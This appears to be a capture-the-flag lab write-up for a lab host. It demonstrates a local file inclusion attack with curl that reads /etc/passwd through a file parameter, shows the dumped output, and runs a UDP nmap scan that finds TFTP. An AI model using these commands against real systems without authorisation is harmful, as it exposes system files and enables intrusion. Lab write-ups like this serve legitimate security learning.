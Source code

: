 Hosting a webpage.

![](Pasted%20image%2020220417174528.png)

Might be vulnerable to LFI (Local File Inclusion).

We can test this by inserting a path that we know exists. There are multiple to choose from, both `/etc/passwd` and `/etc/hosts` will do fine.

This will be a bit easier to do in `curl` so let's switch to that.

```console
┌──(kali㉿kali)-[~]
└─$ curl http://10.129.95.185/?file=/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
mike:x:1000:1000:mike:/home/mike:/bin/bash
tftp:x:110:113:tftp daemon,,,:/var/lib/tftpboot:/usr/sbin/nologin
```

We get the contents of `passwd` which means the website is vulnerable to LFI.

Also, the last user in the output is called TFPT which is a super lightweight version of FTP. For example, it has no authentication. We should just be able to login.

It runs on UDP, so we need to do an extra nmap scan to find it:

```console
┌──(kali㉿kali)-[~/Downloads]
└─$ sudo nmap -n -sU 10.129.95.185 
Nmap scan report for 10.129.95.185
Host is up (0.068s latency).
Not shown: 998 closed udp ports (port-unreach)
PORT   STATE         SERVICE VERSION
68/udp open|filtered dhcpc
69/udp open|filtered tftp

Nmap done: 1 IP address (1 host up) scanned in 1217.81 seconds
```
